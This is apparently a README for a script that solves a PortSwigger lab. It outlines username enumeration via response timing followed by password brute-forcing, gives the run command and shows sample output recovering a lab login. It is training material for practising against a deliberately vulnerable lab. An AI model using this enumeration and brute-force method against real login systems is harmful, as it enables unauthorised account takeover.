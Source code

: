 # Hack Steps
1. Obtain a valid username via response timing
2. Brute force password of that valid username

# Run Script
1. Change the URL of the lab
2. Change the PATH for your usernames list
3. Change the PATH for you passwords list
4. Start script
```
~$ python username_enumeration_via_response_timing.py
```

# Expected Output
```
[#] Enumerate usernames..
Elapsed: 0 minutes || Failed: 0 || Trying (6/101): adam                                              
[#] Brute forcing password..
✅ Valid user: adam
Elapsed: 0 minutes || Failed: 0 || Trying (74/102): joshua                                            
✅ Login successfully:  username: adam, password: joshua
✅ Finished in: 0 minutes
Results was saved to: results
Failed users count: 0
Failed users: [  ]
Failed passwords count: 0
Failed passwords: [  ]
```

# Want to go faster?
Check the [Rust script](https://github.com/elqalawii/portswigger_labs_with_rust/tree/main/Authentication/username_enumeration_via_response_timing) for this lab in both single-threaded and multi-threaded approaches.
